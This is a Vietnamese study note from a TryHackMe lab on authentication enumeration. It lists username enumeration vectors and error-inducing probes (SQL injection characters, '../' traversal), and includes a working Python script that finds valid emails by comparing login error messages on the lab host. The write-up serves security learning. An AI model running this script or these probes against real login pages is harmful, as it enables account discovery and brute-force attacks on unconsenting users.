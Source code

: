 ```yaml
---
title: 'Enumeration & Brute Force'
category: 'learning'
date: '26-01-2025'
---
```


# Chuẩn bị

- Kiến thức cơ bản về giao thức HTTP/HTTPS, bao gồm request/response và status code.
- Sử dụng web proxy như BurpSuite.
- Sử dụng Linux.

# Authentication Enumeration

## Authentication Enumeration

### Identifying Valid Usernames

- Xác định định đúng username đương nhiên giúp cho việc brute force nhanh hơn và chính xác hơn.
- Có thể xác định được username đúng thông qua _Quên mật khẩu_ hay thông báo từ hệ thống.

### Password Policies

- Có thể biết được đơn giản qua việc xem ở _Đăng ký_
- Từ đấy dự đoán được độ phức tạp của mật khẩu, điều chỉnh chiến lược, bỏ bớt mật khẩu vi phạm.

## Common Places to Enumerate

- Đăng ký
- Quên mật khẩu
- Thông báo lỗi
- Data từ lần vi phạm dữ liệu trước đó

# Enumerating Users via Verbose Errors

## Inducing Verbose Errors

- Cố gắng login sai: Đôi khi login làm hệ thống bắn ra các thông báo có lợi như "username not exist" hay "password incorrect".
- SQL Injection: Với loại này thì ta điền thêm vài ký tự đặc biệt vào nhưng nơi dự đoán có liên quan với DB, ví dụ như thêm `' " -- # ;`.
- LFI: Thử truy cập vài đường dẫn không được phép hoặc thêm thử `../` vào một số nơi có thể gây lỗi để xem.
- Thao túng form: Việc điền sai vài parameter hay bấm nút ko dc phép bấm thử cũng là một lựa chọn.
- Application Fuzzing: Gửi một đống input thứ mà hệ thống không lường trước được cũng là cách, một số tool hay dùng như `BurpSuite` hay `ffuf` hay được tin dùng.

## Thử nghiệm

> Tất cả các tài nguyên dưới đây là từ **TryHackMe**

- Ta có một web lab nhỏ có giao diện như sau:
  ![alt text](image.png)
- Nếu nhập đúng email thì thông báo có chút khác biệt:
  ![alt text](image-1.png)
- Dựa trên đây ta có một script nhỏ bằng python:

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)

```

- Scan nửa ngày thif cuối cùng cũng có cái valid:
  ![alt text](image-2.png)
